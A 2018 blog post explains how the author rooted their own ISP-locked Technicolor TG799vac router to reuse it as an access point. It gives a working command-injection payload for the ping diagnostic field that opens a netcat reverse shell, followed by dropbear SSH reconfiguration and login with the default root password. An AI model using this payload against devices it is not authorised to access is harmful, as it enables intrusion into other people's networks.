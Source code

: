 ```yaml
---
title: Getting root access to your Technicolor TG799vac Xtream (Crimson (15.4))
date: 2018-07-25T12:00:00Z
categories: "Other"
---
```

## Intro
Today, I received a free Technicolor TG799vac Xtream router from my ISP, which seems to have quite decent hardware according to my google-fu. I already have a router (two technically speaking), so I have no real need for it. But I have a way it might come to use.

See, currently I have one router without any radio, which I use as my main gateway and router. This is a really nice machine for the most part, so I really like having it for that purpose.  But since I also need WiFi at home, I have my old router which only runs as an access point, forwarding all traffic to my router. Since this AP is upstairs, it wouldn't be too bad having another AP downstairs, maybe somewhere where it gives better WiFi to my garden or garage. This is the idea at least.

Sadly, my ISP has locked the new router down. Making it not possible to put it any kind of AP-only/bridge mode. Fortunately, the security for the device seems shitty, making it easy to get root access through the web interface.

## Steps to gain shell root access
1. Connect to the router's network  
2. Start listening with netcat on your favourite port - `nc -l 8080`  
3. Log in to the web interface with the information you received from your ISP - in my case it's located at http://192.168.10.1 and the username is *admin*  
4. Go to the *Diagnostics Ping & Traceroute* card  
5. Under *Ping Statistics*, Set *IP Address* to `:::::::;nc 192.168.10.216 8080 -e /bin/sh` and press *Send Ping Request*  
6. Back to the netcat window, here you should have root access to an ash-shell, even though nothing is visible right now. Type any command, like`ls`, to confirm.  
7. Since these kind of reverse-shells are a pain to work in, the first step is getting access to ssh.
Luckily, there should be one installed, though blocked for you.
To see the configuration, type `cat /etc/config/dropbear`. Mine looked like this:  

```
config dropbear
    option PasswordAuth 'off'
    option RootPasswordAuth 'on'
    option Port '22'
    option Interface 'wan'
#this statement in itself is not working, need FW rule:
    option AllowedClientIPs '195.54.114.216/29 195.54.106.0/28 195.54.106.144/28'
    option enable '1'

#config dropbear
#        option PasswordAuth     'on'
#        option RootPasswordAuth 'on'
#        option Port             '22'
#        option Interface        'lan'
#        option enable '1'
```
Here we see that the router is completely open to people from some ip-ranges from WAN, but closed to you. In fact the complete opposite from what we want. If you have exactly the same configuration, you have fix it by running `sed -i -e '1,9 d' -e's/#//' /etc/config/dropbear`. You want to end up with something like this:
```
config dropbear
        option PasswordAuth     'on'
        option RootPasswordAuth 'on'
        option Port             '22'
        option Interface        'lan'
        option enable '1'
```
8. Restart dropbear - `/etc/init.d/dropbear restart`  
9. Connect through ssh from another shell - `ssh root@192.168.10.1`, username and password is *root*. TADA

```
The authenticity of host '192.168.10.1 (192.168.10.1)' can't be established.
RSA key fingerprint is SHA256:ZEP4kdhhGqvYO4cNN3aAkXUXs+MPHMA2fpv1WlL7O90.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.10.1' (RSA) to the list of known hosts.
root@192.168.10.1's password:


BusyBox v1.19.4 (2016-12-23 11:07:18 UTC) built-in shell (ash)
Enter 'help' for a list of built-in commands.

-----------------------------------------------------------------------
                        ##
                   #########
                 ###########
                #########
               ####                      ##
              ##          ##             ##
      ###########        #####   ####    ##    ####    ## ###     ####    ## ##
   ########   #####       ##   ##    ##  ##  ##    ##  #######  ##    ##  #####
  ########    #######     ##   ##    ##  ##  ##    ##  ##   ##  ##    ##  ###
########      ########    ##   ########  ##  ########  ##   ##  ##    ##  ##
#######        ########   ##   ##        ##  ##        ##   ##  ##    ##  ##
######         #########  ####  ######   ###  ######   ##   ##    ####    ##
  ##            #########
                #########
                 ########
                  #######
                   #####
-----------------------------------------------------------------------

Product: vant-w_telenor_r15-4
Release: Crimson (15.4)
Version: 15.53.7451-1761003-20170320115330
```  
10. (Optional) Put your own rsa-key in */etc/dropbear/authorized_keys* and remove password login from */etc/config/dropbear*  

## What now
Now, it seems like the real OS is openwrt, meaning opkg is installed, which in turn can be used to install whatever you need. It also seems possible to unlock more cards on the web interface through the config in /etc/config. I might update this guide with some more info on this later.

